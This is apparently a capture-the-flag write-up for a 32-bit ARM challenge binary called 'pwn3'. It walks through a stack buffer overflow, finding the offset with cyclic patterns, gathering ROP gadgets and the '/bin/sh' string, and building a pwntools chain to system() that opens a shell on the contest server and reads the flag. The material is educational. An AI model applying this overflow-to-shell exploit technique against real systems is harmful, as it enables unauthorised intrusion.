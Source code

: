 # Pwn3 - Simple ARM pwn
This challenge comes with the binary [pwn3](https://github.com/henriknero/writeups/tree/master/pwn3/pwn3)
```
 $ file pwn3 
pwn3: ELF 32-bit LSB executable, ARM, EABI5 version 1 (GNU/Linux), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=46d0723fb9ff9add7b00860a2382f32656a04700, stripped
```
When running the binary it firstly complains that we haven't supplied the file banner.txt, so we create this. Running it again we get the following:
```
$ ./pwn3
bannertext
buffer: 
```
So we can input to a char-buff via stdin. So anyway I just started blasting
```
 $ python -c "print('a'*0x200)" | ./pwn3 
buffertext
buffer: qemu: uncaught target signal 11 (Segmentation fault) - core dumped
Segmentation fault (core dumped)
```
Okey so, pwnlib...
```
pwn template --host pwn3-01.play.midnightsunctf.se --port 10003 pwn3 > exploit
```
```python
...
io = start()
array = cyclic(0x200)
io.sendline(array)

io.interactive()

```
![](screenshot_1.png)

So we have can overwrite the pc with the bufferoverflow, neat. We also see that we have space for some ropping looking at the stack-pointer. Now we just need to find a good gadget. We likely want to find system. 

Conveniently the author uses ```system(cat banner.txt)``` to print the banner. But if this is not the case we can probably search for /bin/sh to locate the function anyways. 

So now lets just prep the registers. I use ROPgadget to find good gadgets.
```
 $ ROPgadget --binary ./pwn3 --only pop
Gadgets information
============================================================
0x0001ddc0 : pop {r0, ip, sp, pc}
0x00015524 : pop {r0, r1, ip, sp, pc}
0x00013c9c : pop {r0, r1, r2, ip, sp, pc}
0x00013080 : pop {r0, r1, r2, r3, ip, sp, pc}
0x000169c4 : pop {r0, r1, r2, r3, r5, ip, sp, pc}
0x00028d90 : pop {r0, r1, r2, r4, ip, sp, pc}
0x00024460 : pop {r0, r1, r2, r6, r7, sb, sl, fp, ip, sp, lr, pc}
0x00014470 : pop {r0, r1, r3, ip, sp, pc}
0x000288f0 : pop {r0, r1, r4, ip, sp, pc}
0x00036558 : pop {r0, r1, r5, ip, sp, pc}
0x00014ee4 : pop {r0, r2, ip, sp, pc}
0x000158b4 : pop {r0, r2, r3, ip, sp, pc}
0x00023b08 : pop {r0, r2, r3, r4, ip, sp, pc}
0x000394f8 : pop {r0, r2, r3, r7, sb, fp, ip, sp, lr, pc}
0x00021edc : pop {r0, r2, r4, r5, ip, sp, pc}
0x0002aa94 : pop {r0, r2, r5, ip, sp, pc}
0x00014c34 : pop {r0, r3, ip, sp, pc}
0x0001c59c : pop {r0, r3, r4, ip, sp, pc}
0x00011b20 : pop {r0, r3, r4, r5, ip, sp, pc}
0x000108fc : pop {r0, r3, r4, r5, r6, r7, r8, ip, lr, pc}
0x00043858 : pop {r0, r3, r5, ip, sp, pc}
0x0002c3a4 : pop {r0, r3, r6, ip, sp, pc}
0x0001e6d8 : pop {r0, r4, ip, sp, pc}
0x0001fb5c : pop {r0, r4, pc}
...

$ ROPgadget --binary ./pwn3 --string /bin/sh
Strings information
============================================================
0x00049018 : /bin/sh
```
And to find the function I just search for references to /bin/sh in ghidra. Or in this case go to the function that takes "cat banner.txt" as argument. (0x14b5c). 

```python
...
array = cyclic(cyclic_find(b'jaab')) + "0123" + p32(0x0001fb5c) + p32(0x00049018) + "1111" + p32(0x14b5d) 
io.sendline(array)
io.interactive()
```
A good thing to notice is that I'm using 0x14b5d instead of 0x14b5c. This is due to ARM instruction alignment. So if you get wierd instructions jumping somewhere, just test shifting the address a little up or down. 

Running this against the remote server we get a shell and can simply print the flag.
```
$ ./exploit 
[*] '/home/henrik/midnight2020/pwn3/pwn3'
    Arch:     arm-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x10000)
[+] Opening connection to pwn3-01.play.midnightsunctf.se on port 10003: Done
[*] Switching to interactive mode
                                                               ▄▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▄
                                                     ▄▄▄▄▄▄▄▄▄█  ▀                 ▀███
 ▄█████████▄ ▄███     ▄███ ▄███   ▄███ ▄█████████▄   ██████████         ▄   ▄    ▄    █
 ████▀▀▀████ ████     ████ █████▄ ████ ▀▀▀▀▀▀▀████   ██████████    ▄         ▄▀▀▄     █▄▀▀▄
 ████▄▄▄████ ████  ▄  ████ ███████████     ▄▄▄███▀   ▀▀▀▄▀▀▄▀▀█       ▄      █   ▀▄▄▄▄▀   █
 ██████████▀ ████▄███▄████ ████▀▀█████     ▀▀▀███▄   ███▀▄  ▀▀█              █            █
 ████▀▀▀▀▀▀  ██████▀██████ ████  ▀████ ▄▄▄▄▄▄▄████   █████▀▀▄▄█   ▄        ▄█   ▄█   ▄ ▄█  █
 ████        ████▀▀ ▀▀████ ████   ████ ██████████▀   ▀▀▀▀▀▀▀▀▀█      ▄      █ ██ ▄  ▄  ▄ ███
 ▀▀▀▀        ▀▀▀▀     ▀▀▀▀ ▀▀▀▀   ▀▀▀▀ ▀▀▀▀▀▀▀▀▀▀    ████████▄█  ▄           ▀▄  ▀▀▀▀▀▀▀ ▄▀
                                                           ▄▀ ▀█▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▀▀█▀▀▀█▀▀▀
                                                           █▄▄▀  █▄▄▀        █▄▄▀ ▀▄▄█
buffer: $ ls
banner.txt
flag
pwn3
redir.sh
$ cat flag
midnight{the_pwn_knight_16435f41118a38dd}
```
